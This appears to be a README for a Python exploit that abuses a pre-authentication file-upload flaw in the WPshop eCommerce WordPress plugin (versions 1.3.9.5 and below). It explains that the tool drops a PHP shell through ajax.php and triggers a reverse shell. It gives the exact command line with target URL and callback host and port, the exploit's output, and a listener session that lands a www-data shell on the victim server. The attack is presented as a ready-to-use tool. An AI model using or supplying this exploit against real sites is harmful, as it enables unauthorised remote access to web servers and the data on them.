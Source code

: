 # Exploit for WordPress WPshop eCommerce 1.3.9.5 Shell Upload.
This is an exploit for a trivial shell upload vulnerability in the WPshop eCommerce plugin in versions 1.3.9.5 and below. Its a very trivial shell upload in "ajax.php", preauth, that 
we use to upload a shell and then spawn a reverse connect shell. Nothing fancy, only reason I bothered writing an exploit for it is because I didn't want to use Metasploit and happened 
to have use for it.


## Usage

To use, simply select which payload you want to use (currently only back_python.php is available, but I plan on adding back_php.php and back_perl.php at a later date). This is the 
"payload.php". You also must specify a callback host and port, along with the URL to the vulnerable Wordpress installation.

Example Use:
```
xrl:~$ python2 wpsh0pwn.py http://192.168.2.114/wordpress/ back_python.php 192.168.2.116 1337

██╗    ██╗██████╗ ███████╗██╗  ██╗ ██████╗ ██████╗ ██╗    ██╗███╗   ██╗
██║    ██║██╔══██╗██╔════╝██║  ██║██╔═████╗██╔══██╗██║    ██║████╗  ██║
██║ █╗ ██║██████╔╝███████╗███████║██║██╔██║██████╔╝██║ █╗ ██║██╔██╗ ██║
██║███╗██║██╔═══╝ ╚════██║██╔══██║████╔╝██║██╔═══╝ ██║███╗██║██║╚██╗██║
╚███╔███╔╝██║     ███████║██║  ██║╚██████╔╝██║     ╚███╔███╔╝██║ ╚████║
 ╚══╝╚══╝ ╚═╝     ╚══════╝╚═╝  ╚═╝ ╚═════╝ ╚═╝      ╚══╝╚══╝ ╚═╝  ╚═══╝
 Exploit for WPShop Ecommerce, WPVDB-7830 Version: 20150427.1
{+} Using target URL of: http://192.168.2.114/wordpress//wp-content/plugins/wpshop/includes/ajax.php?elementCode=ajaxUpload
{+} Our shell is at: http://192.168.2.114/wordpress/wp-content/uploads//test.php
{*} Sending Backconnect to 192.168.2.116:1337...
{*} Sending our payload...
{+} Using 192.168.2.116:1337 as callback...
{+} Dropping shell...
{+} Shell dropped... Triggering...
{+} got shell?
xrl:~$
```

Listener (I suggest using the [tcp-pty-shell-handler][shellhandle]:
```
$ python2 ./python-pty-shells/tcp_pty_shell_handler.py -b 0.0.0.0:1337
Got root yet?
Linux htp 3.18.0-kali3-amd64 #1 SMP Debian 3.18.6-1~kali2 (2015-03-02) x86_64 GNU/Linux
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@htp:/var/www/wordpress/wp-content/uploads$ ls
2015  test.php
www-data@htp:/var/www/wordpress/wp-content/uploads$ exit
exit
quitting, cleanup
```

## Demo
If you want, check out the [Asciicast demo][asciicast]. The ASCII art got a bit fucked this time around due to term resizing.
[![asciicast](https://asciinema.org/a/19262.png)](https://asciinema.org/a/19262)

## Licence
Licenced under the [WTFPL][wtfpl]

[asciicast]: https://asciinema.org/a/19262
[wtfpl]: http://www.wtfpl.net/
[shellhandle]: https://github.com/infodox/python-pty-shells
